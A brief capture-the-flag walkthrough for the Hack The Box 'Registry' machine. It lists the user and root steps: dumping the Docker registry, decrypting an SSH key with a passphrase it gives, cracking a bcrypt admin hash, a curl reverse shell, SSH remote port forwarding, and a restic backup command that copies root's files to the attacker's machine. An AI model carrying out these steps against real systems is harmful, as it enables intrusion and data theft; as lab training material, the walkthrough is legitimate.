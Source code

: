                                                            USER
                                                                  
                                                                  
Perform a nmap scan to get the domain we need to use I.e docker.registry.htb 

http://docker.registry.htb/v2/ and see how to extract all blobs . 

 See docker_image_fetch.py for juicy URLs 
 
 Now  use GkOcz221Ftb3ugog as password to decrypt ssh key and login using it as bolt 
 
 
 
                                                           ROOT  
                                                                  
                                                                  
Visit /bolt/bolt to get login page and crack the bcrypt hash to login as admin:strawberry 

Then for reverse shell as www-data we need to bypass iptables so set up a listener in bolt ssh session and get reverse shell using curl as bolt. 

Sudo –l  

ssh -R 8000:127.0.0.1:8000 -i id_rsa bolt@registry.htb for remote port forwarding (not Local as we wanted to set connection from bolt to my pc not vice versa) 

Set up docker container and start restic server on kali and then run sudo /usr/bin/restic backup -r rest:http://admin:admin@127.0.0.1:8000/root/ to get root copy 

